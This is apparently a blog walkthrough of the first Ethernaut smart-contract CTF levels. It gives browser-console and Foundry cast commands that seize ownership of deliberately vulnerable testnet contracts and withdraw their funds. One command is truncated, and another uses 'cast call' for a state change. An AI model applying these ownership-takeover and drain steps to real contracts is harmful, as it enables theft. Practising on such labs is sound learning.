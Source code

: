 +++
title = "Ethernaut Challenge Solutions"
date = "2024-06-03"
description = "Walkthroughs for Ethernaut CTF challenges, covering vulnerabilities and exploitation techniques."
+++

Hello peeps, recently have started learning things about blockchain.Most probably ethernaut would be the first place where people will land to get their hands dirty. I too landed here and I have noted things that I learned through out this CTF challenges.

# Introduction
Ethernaut is a foundational platform for hands-on smart contract security practice. Below are my solutions for the first two challenges, highlighting key vulnerabilities and attack vectors.  
Everytime you got a challenge, start with a click on `Get new instance`. Once you done with it click on `Submit level` option.

# 0: Hello Ethernaut
**Link:** https://ethernaut.openzeppelin.com/level/0  
**Bug:** Sensitive data exposure  
**Objective:** Familiarize yourself with contract interaction via the browser console  
**Steps:**  
- As they mentioned in the problem statement,let's open the console tab and execute `await contract.info()`. let move forward with response it gives back

![eth-1.png](../writeup-images/eth-1.png)

**Note:** You might be wondering how can I know that I need to execute the `await contract.password()` to get the password to authenticate. I strongly believe there might be a variable exist which is being checked in authenticate function. So I checked all the function and variables available in contract with the help of console suggestion whenever we add `await contract`.

# 1: Fallback
**Link:** https://ethernaut.openzeppelin.com/level/1  
**Bug:** Improper ownership transfer in receive() function.  
**Objective:** Become the owner and drain the contract’s funds.  
**Description:** The ownership will be given to the user who contributes more through `contribute()` function. But in the fallback function, I mean in the receive() function it is giving the ownership if you just send more than 0 eth and if you already contributed more than 0 eth using contribute() function.  
**Steps:**
1. make a call to contribute() function to contribute some eth.
2. now make a call to receive() function with some eth
3. call withdraw function to get all the funds from contract.

**Using Console:**
```shell
    web3.eth.sendTransaction(
        {
            from: player,
            to: contract.address,
            data: web3.eth.abi.encodeFunctionSignature("contribute()"),
            value: 10**10
        
        }
    )
    
    web3.eth.sendTransaction(
        {
            from: player,
            to: contract.address,
            data: '',
            value: 10**10
        }
    )
```

**Using Foundry:**
    I usually use foundry. In foundry setup, we have a tool called `cast` to interact with contracts. You can follow the below commands.
```shell
    cast send 0x678be0dE93C246b60d05b0dC53E03c226A77bE0E "contribute()" --value 1 --private-key $SEPOLIA_PRIVATE_KEY --rpc-url $SEPOLIA_RPC_U
    cast send 0x678be0dE93C246b60d05b0dC53E03c226A77bE0E  --value 1 --private-key $SEPOLIA_PRIVATE_KEY --rpc-url $SEPOLIA_RPC_URL
    cast send 0x678be0dE93C246b60d05b0dC53E03c226A77bE0E "withdraw()" --private-key $SEPOLIA_PRIVATE_KEY --rpc-url $SEPOLIA_RPC_URL
```


# 2: Fal1out
**Link:** https://ethernaut.openzeppelin.com/level/2  
**Bug:** Improper ownership transfer in Fal1out() function.  
**Objective:** Become the owner and drain the contract’s funds.  
**Description:** The ownership will be given to the user who calls the `Fal1out()` function. They missed to have the contructor name same as contract name, where it's giving ownership permissions to the creator.  
**Steps:**
- call the **Fal1out()** function.

**Using Console:**
```shell
  await contract.Fal1out()
```

**Using Foundry:**
```solidity
cast call 0xb685F5c3aCdb5D874D3e1219D8a4FDF08a502c6E  "Fal1out()" --private-key $SEPOLIA_PRIVATE_KEY --rpc-url $SEPOLIA_RPC_URL
```

